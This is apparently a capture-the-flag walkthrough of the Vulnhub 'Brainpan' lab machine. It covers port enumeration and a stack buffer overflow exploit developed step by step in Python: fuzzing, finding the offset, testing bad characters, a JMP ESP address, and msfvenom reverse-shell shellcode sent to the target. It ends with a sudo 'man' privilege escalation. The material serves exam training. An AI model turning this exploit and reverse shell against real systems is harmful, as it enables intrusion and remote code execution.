




# Brainpan



Originally posted on **Vulnhub** by [superkojiman](https://www.vulnhub.com/entry/brainpan-1,51/)

Brainpan is a vulnerable machine, highly recommended to complete before taking the OSCP exam due to the buffer overflow vulnerability that has to exploited.

The vulnerable program is a Windows executable. 

We will analyze and exploit it from our Kali Linux machine. 

## Enumeration

### `nmap` scan

`nmap` reveals two open ports:

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -oN brainpan.txt 10.10.92.146
Nmap scan report for 10.10.92.146
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
```

I couldn't figure out which OS is running on the target machine using [`nmap -O`](https://nmap.org/book/man-os-detection.html) so I pinged it and I assumed it was a Linux server because of the TTL value (See [default TTL (Time To Live) values of different OS](https://subinsb.com/default-device-ttl-values/)):

```
$ ping -c3 10.10.92.146
PING 10.10.92.146 (10.10.92.146) 56(84) bytes of data.
64 bytes from 10.10.92.146: icmp_seq=1 ttl=63 time=37.7 ms
64 bytes from 10.10.92.146: icmp_seq=2 ttl=63 time=37.6 ms
64 bytes from 10.10.92.146: icmp_seq=3 ttl=63 time=37.2 ms

--- 10.10.92.146 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2004ms
rtt min/avg/max/mdev = 37.203/37.503/37.704/0.216 ms
```

### Port 9999 (Brainpan)


### Port 10000 (SimpleHTTPServer)


`dirb` can help us to find a `/bin` directory on the web page:

```bash
$ dirb http://$TARGET:10000 -o services/10000-http.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: services/10000-http.txt
START_TIME: Sun Aug  1 18:09:55 2021
URL_BASE: http://10.10.92.146:10000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.92.146:10000/ ----
+ http://10.10.92.146:10000/bin (CODE:301|SIZE:0)                                                                                                          
+ http://10.10.92.146:10000/index.html (CODE:200|SIZE:215)
                                                                                                                                                            
-----------------
END_TIME: Sun Aug  1 18:15:39 2021
DOWNLOADED: 4612 - FOUND: 2
```

An executable called `brainpan.exe` can be downloaded from here:


Using `file` tells us this a 32-bit Windows program:

```bash
$ file brainpan.exe 
brainpan.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows
```

____

## Exploitation

This executable is the same as the one on the port 9999 of the target machine.

In order to run it from our Kali Linux machine, we'll be using `wine`:


### Step 1: Fuzzing

The program is waiting for password from the user input.

During this first step called "fuzzing", we'll be sending a bunch of characters in order to crash the program. This will potentially reveals a buffer overflow vulnerability.

I used the following script to do so: 

```python
import socket
import time
import sys

buffer = b"A" * 100
target = '127.0.0.1'
port = 9999

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.send((b"                          >> " + buffer))
        s.close()
        time.sleep(1)
        buffer = buffer + b"A" * 100
    except:
        print(f"Fuzzing crashed at {len(buffer)} bytes...")
        sys.exit(1)
```


As we can see from the screenshots above, the program tried to access to the address **0x41414141** and crashed. 


This means we successfully overwrite **EIP** and the program crashed after copying 529 bytes to the buffer. Since **0x41414141** is just the hexadecimal representation of **0xAAAA**.


### Step 2: Finding the offset

Now, we want to know: how much characters do we need at least to crash the program? 

This amount is called the **offset**. In order to find it, we can rely on two Metasploit scripts (called `pattern_create.rb` and `pattern_offset.rb`) or simply go manually.   

#### Method#1: `pattern_create` + `pattern_offset`

- We create a pattern of 529 characters with `pattern_create.rb`:

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 529 > pattern.txt
```

- We send this pattern to our wine local instance of `brainpan.exe`:

```python
import socket
import time

target = '127.0.0.1'
port = 9999

with open("pattern.txt") as f:
    buffer = f.read().strip().encode()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send((b"                          >> " + buffer))
s.close()
```

- We inspect the value of `EIP`:


- We give this value to `pattern_offset.rb` to compute the exact number of characters needed to crash the program: 

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41357141
[*] Exact match at offset 495
```

#### Method#2: manually

Since I saw the message _"529 bytes copied to buffer"_ on the debug console, I tried many values (525, 500, ...) until I found **495** was the exact offset.

```python
import socket
import time
import sys

offset = 495
buffer = b"A" * offset + b"B" * 4
target = '127.0.0.1'
port = 9999

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send((b"                          >> " + buffer))
s.close()
```

By placing `BBBB` at the end of my payload, I thought: _"I will find the offset after `EIP`'s value will be `42424242`"_:


### Step 3: Identifying bad characters (`ollydbg`)

In order to generate a shellcode that will work, we have to identify the bad characters first:

```python
import socket
import time
import sys

# \x00
badchars = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

offset = 495
buffer = b"A" * offset + b"B" * 4 + badchars
target = '127.0.0.1'
port = 9999

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send((b"                          >> " + buffer))
s.close()
```

To inspect the program's memory I attached the `brainpan` process to `ollydbg` on my Kali machine as follows:


All the characters are here (there are no bad characters):


### Step 4: Finding `JMP ESP`

Before continuing, we need to find a `jmp esp` instruction to redirect the execution flow at the start of our payload/shellcode.

> [Why JMP ESP instead of directly jumping into the stack?](https://security.stackexchange.com/questions/157478/why-jmp-esp-instead-of-directly-jumping-into-the-stack)


Using `ollydbg`, I found the following address:


However, to ensure it was the correct address I ran `brainpan.exe` on a Windows VM and inspected it (as on this [video](https://www.youtube.com/watch?v=k9D9RuFT02I&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G&index=7) using) **Immunity Debugger** and `mona.py`: 



The address I got was `0x311712F3`.

### Step 5: Generating shellcode

To generate a shellcode we can use `msfvenom`:

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=$(vpnip) lport=4444 --format python --bad-chars "\x00" --var-name shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of python file: 550 bytes
shellcode =  b""
shellcode += b"\xba\x9d\x29\x7f\xfa\xdd\xc4\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x12\x31\x50\x12\x03\x50\x12"
shellcode += b"\x83\x75\xd5\x9d\x0f\xb4\xfd\x95\x13\xe5\x42"
shellcode += b"\x09\xbe\x0b\xcc\x4c\x8e\x6d\x03\x0e\x7c\x28"
shellcode += b"\x2b\x30\x4e\x4a\x02\x36\xa9\x22\x9f\xc3\x6a"
shellcode += b"\x21\xf7\xd1\x6c\x54\x54\x5f\x8d\xe6\x02\x0f"
shellcode += b"\x1f\x55\x78\xac\x16\xb8\xb3\x33\x7a\x52\x22"
shellcode += b"\x1b\x08\xca\xd2\x4c\xc1\x68\x4a\x1a\xfe\x3e"
shellcode += b"\xdf\x95\xe0\x0e\xd4\x68\x62"
```

> **Note**: First I thought the target was a Windows machine and I used a `windows/shell_reverse_tcp` payload. Surprisingly, it worked and I got a Windows shell (`Z:\home\puck>`)...very weird! (need to figure out)

### Step 6: Writing final exploit 

```python
import socket
import pwn

shellcode =  b""
shellcode += b"\xba\x9d\x29\x7f\xfa\xdd\xc4\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x12\x31\x50\x12\x03\x50\x12"
shellcode += b"\x83\x75\xd5\x9d\x0f\xb4\xfd\x95\x13\xe5\x42"
shellcode += b"\x09\xbe\x0b\xcc\x4c\x8e\x6d\x03\x0e\x7c\x28"
shellcode += b"\x2b\x30\x4e\x4a\x02\x36\xa9\x22\x9f\xc3\x6a"
shellcode += b"\x21\xf7\xd1\x6c\x54\x54\x5f\x8d\xe6\x02\x0f"
shellcode += b"\x1f\x55\x78\xac\x16\xb8\xb3\x33\x7a\x52\x22"
shellcode += b"\x1b\x08\xca\xd2\x4c\xc1\x68\x4a\x1a\xfe\x3e"
shellcode += b"\xdf\x95\xe0\x0e\xd4\x68\x62"

jmp_esp = 0x311712F3 #0x7BCCE5D9
offset = 495
buffer = b"A" * offset + pwn.p32(jmp_esp) + b"\x90" * 32 + shellcode

target = '10.10.92.146'
#target = '127.0.0.1'
port = 9999

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, port))
    s.send((b"                          >> " + buffer))
    s.close()
except:
    print(f"Error connecting to the server...")
```

And we got a shell as **puck**:


___

## Privesc

### Upgrade shell


### Inspecting `/home`




### Upload `Linpeas`





With the program that we can run with `sudo`, we can open manual pages. 

The program certainly rely on the `man` command so I looked for **GTFOBins man** and this is what I found: 


Indeed, it worked, we own root:


___

## Useful resources

- [The Cyber Mentor - Buffer Overflows Made Easy](https://www.youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)
- [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
- [Mona.py](https://github.com/corelan/mona/blob/master/mona.py)
- [GTFOBins - man](https://gtfobins.github.io/gtfobins/man/)